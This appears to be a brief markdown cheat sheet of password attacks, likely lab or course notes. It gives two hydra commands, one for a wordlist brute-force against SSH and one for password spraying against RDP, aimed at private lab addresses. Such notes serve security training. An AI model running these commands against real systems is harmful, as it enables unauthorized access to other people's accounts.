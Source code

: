 # Password attacks

## SSH

```
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```

## RDP

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

